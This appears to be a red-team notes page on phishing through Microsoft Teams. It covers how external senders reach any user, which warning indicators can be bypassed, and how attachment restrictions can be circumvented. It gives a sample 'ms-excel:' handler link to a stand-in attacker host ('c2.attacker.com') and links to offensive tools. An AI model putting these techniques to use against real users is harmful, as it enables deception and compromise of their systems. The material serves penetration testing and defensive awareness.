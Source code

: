 ```yaml
---
title: Phishing via Teams
---
```


Anybody can send Teams message to any email address.
Just press `alt+n` in Teams.

The recipient gets various indicators if the sender is external:

- warning popup when the chat is opened the first time
- if the sender belongs to a enterprise tenant the domain is displayed below the attacker-controlled sender name
- if the sender is a personal account no domain is shown
- in the chat the sender name is suffixed with `(external)`

It shouldn't be possible to send attachments to external organizations, but this restriction can be bypassed ([source](http://web.archive.org/web/20230106091541/https://scribe.rip/@bobbyrsec/microsoft-teams-attachment-spoofing-and-lack-of-permissions-enforcement-leads-to-rce-via-ntlm-458aea1826c5), [source](http://web.archive.org/web/20230621205851/https://labs.jumpsec.com/advisory-idor-in-microsoft-teams-allows-for-external-tenants-to-introduce-malware/)).
Furthermore Teams accepts links to URL handlers like `ms-excel:/ofv|u|//c2.attacker.com@80/share/test.xlsx`, but UNC paths like `\\something`, `\\something@80` and `file://something` are blocked.

Untested tools:

- [TeamsBreaker](https://github.com/ASOT-LABS/TeamsBreaker)
- [TeamsPhisher](https://github.com/Octoberfest7/TeamsPhisher)

References:

- [Speedrun for a O365 Phishing infrastructure](https://web.archive.org/web/20231205060205/https://badoption.eu/blog/2023/12/03/PhishingInfra.html), use free dev tenant
- [Teams external participant splash screen bypass #2](http://web.archive.org/web/20240117151926/https://badoption.eu/blog/2024/01/12/teams5.html)
- [Teams external participant splash screen bypass](http://web.archive.org/web/20231002132013/https://badoption.eu/blog/2023/09/27/teams4.html)
- [twitter.com/jamieantisocial/status/1686828931737853952](https://twitter.com/jamieantisocial/status/1686828931737853952), example pretext used in real campaign
- [Obscurities with MS Teams part 3](https://web.archive.org/web/20231207181845/https://badoption.eu/blog/2023/06/30/teams3.html)
